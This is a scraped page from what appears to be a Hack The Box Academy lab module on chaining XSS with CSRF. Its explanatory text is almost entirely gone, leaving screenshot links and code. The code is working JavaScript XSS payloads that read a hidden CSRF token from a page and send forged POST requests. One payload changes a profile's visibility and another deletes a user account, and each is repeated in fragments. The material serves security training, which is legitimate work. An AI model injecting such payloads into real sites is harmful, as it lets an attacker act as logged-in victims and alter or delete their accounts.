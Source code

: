 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/153/section/1450
// Platform Version: V1
// Module ID: 153
// Module Name: Session Security
// Module Difficulty: Medium
// Section ID: 1450
// Section Title: XSS & CSRF Chaining
// Page Title: Session Security
// Page Number: 09
-->

# XSS & CSRF Chaining

**Module Name:** Session Security **Page Number:** 09

#### SESSION SECURITY

# XSS & CSRF Chaining

``` shell-session
[!bash!]$ burpsuite
```

![https://academy.hackthebox.com/storage/modules/153/45.png](https://academy.hackthebox.com/storage/modules/153/45.png)

![https://academy.hackthebox.com/storage/modules/153/56.png](https://academy.hackthebox.com/storage/modules/153/56.png)

``` javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```

``` javascript
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
```

``` javascript
req.onload = handleResponse;
```

``` javascript
req.open('get','/app/change-visibility',true);
```

``` javascript
req.send();
```

``` javascript
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
```

``` javascript
var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
```

![https://academy.hackthebox.com/storage/modules/153/57.png](https://academy.hackthebox.com/storage/modules/153/57.png)

``` javascript
var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
```

``` javascript
changeReq.open('post', '/app/change-visibility', true);
```

``` javascript
changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
```

``` javascript
changeReq.send('csrf='+token+'&action=change');
```

![https://academy.hackthebox.com/storage/modules/153/56.png](https://academy.hackthebox.com/storage/modules/153/56.png)

![https://academy.hackthebox.com/storage/modules/153/44.png](https://academy.hackthebox.com/storage/modules/153/44.png)

![https://academy.hackthebox.com/storage/modules/153/58.png](https://academy.hackthebox.com/storage/modules/153/58.png)

![https://academy.hackthebox.com/storage/modules/153/46.png](https://academy.hackthebox.com/storage/modules/153/46.png)

![https://academy.hackthebox.com/storage/modules/153/59.png](https://academy.hackthebox.com/storage/modules/153/59.png)

``` javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/delete/mhmdth.rdyy@example.com',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/delete', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token);
};
</script>
```

# 

# 

#### Questions

####